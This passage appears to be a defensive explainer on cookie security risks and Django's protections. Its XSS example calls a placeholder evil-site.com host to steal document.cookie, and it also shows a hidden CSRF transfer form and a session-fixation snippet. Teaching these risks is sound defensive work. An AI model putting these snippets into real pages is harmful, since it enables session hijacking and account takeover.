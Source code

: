 
## **Are Cookies Secure by Default in Web Development?**

### **🚨 Cookie Security Reality Check**

**No, cookies are NOT secure by default.** They come with several inherent security vulnerabilities that developers must actively address:

### **🔓 Major Cookie Security Risks:**

#### **1. Cross-Site Scripting (XSS) Attacks**
```javascript
// Malicious script can steal cookies
document.cookie; // Attacker can access all cookies
fetch('http://evil-site.com/steal?cookie=' + document.cookie);
```
- **Risk**: Malicious JavaScript can read and steal cookie values
- **Impact**: Session hijacking, credential theft, impersonation

#### **2. Cross-Site Request Forgery (CSRF)**
```html
<!-- Malicious site can use your cookies against you -->
<form action="https://yourbank.com/transfer" method="post">
    <input type="hidden" name="amount" value="10000">
    <!-- Your browser automatically sends cookies with this request -->
</form>
```
- **Risk**: Cookies are sent automatically with every request to the domain
- **Impact**: Unauthorized actions performed on behalf of the user

#### **3. Man-in-the-Middle (MITM) Attacks**
```http
GET /login HTTP/1.1
Cookie: sessionid=abc123; auth_token=xyz789
<!-- Transmitted over HTTP - visible to attackers -->
```
- **Risk**: Cookies transmitted over unencrypted connections can be intercepted
- **Impact**: Session theft, credential compromise

#### **4. Session Fixation**
```javascript
// Attacker sets a known session ID
document.cookie = "sessionid=attacker_known_id";
// User logs in with this ID, attacker gains access
```
- **Risk**: Attacker can force a user to use a predetermined session ID
- **Impact**: Account takeover after user authentication

### **🛡️ How Django Handles Cookie Security**

Django provides multiple layers of protection against these vulnerabilities:

#### **1. HttpOnly Flag (XSS Protection)**
```python
# settings.py
SESSION_COOKIE_HTTPONLY = True  # Default: True
CSRF_COOKIE_HTTPONLY = True     # Default: False, but recommended

# In views - setting HttpOnly cookies manually
response.set_cookie(
    'secure_data', 
    'value',
    httponly=True  # JavaScript cannot access this cookie
)
```